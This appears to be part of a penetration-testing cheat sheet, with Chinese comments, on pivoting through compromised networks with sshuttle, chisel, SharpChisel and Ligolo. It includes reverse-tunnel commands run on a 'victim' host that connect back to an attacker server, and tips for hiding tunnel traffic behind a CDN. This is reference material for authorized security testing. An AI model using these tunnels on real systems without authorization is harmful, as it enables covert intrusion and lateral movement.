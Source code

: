 ```powershell
pacman -Sy sshuttle
apt-get install sshuttle
sshuttle -vvr user@10.10.10.10 10.1.1.0/24
sshuttle -vvr username@pivot_host 10.2.2.0/24 

# 使用私钥
$ sshuttle -vvr root@10.10.10.10 10.1.1.0/24 -e "ssh -i ~/.ssh/id_rsa" 

# -x == 排除某些网络，不通过隧道传输
# -x x.x.x.x.x/24
```

## chisel


```powershell
go get -v github.com/jpillora/chisel

# 将389和88端口转发到黑客计算机
user@hacker$ /opt/chisel/chisel server -p 8008 --reverse
user@victim$ .\chisel.exe client YOUR_IP:8008 R:88:127.0.0.1:88 R:389:localhost:389 

# SOCKS
user@victim$ .\chisel.exe client YOUR_IP:8008 R:socks
```

### SharpChisel

Chisel的C#封装器：https://github.com/shantanu561993/SharpChisel

```powershell
user@hacker$ ./chisel server -p 8080 --key "private" --auth "user:pass" --reverse --proxy "https://www.google.com"
================================================================
server : run the Server Component of chisel 
-p 8080 : run server on port 8080
--key "private": use "private" string to seed the generation of a ECDSA public and private key pair
--auth "user:pass" : Creds required to connect to the server
--reverse:  Allow clients to specify reverse port forwarding remotes in addition to normal remotes.
--proxy https://www.google.com : Specifies another HTTP server to proxy requests to when chisel receives a normal HTTP request. Useful for hiding chisel in plain sight.

user@victim$ SharpChisel.exe client --auth user:pass https://redacted.cloudfront.net R:1080:socks
```

## Ligolo

Ligolo：为渗透测试人员简化反向隧道，由渗透测试人员打造

1. 构建 Ligolo

  ```powershell
  # 获取 Ligolo 及其依赖项
  cd `go env GOPATH`/src
  git clone https://github.com/sysdream/ligolo
  cd ligolo
  make dep

  # 生成自签名TLS证书（将放置在certs文件夹中）
  make certs TLS_HOST=example.com

  make build-all
  ```
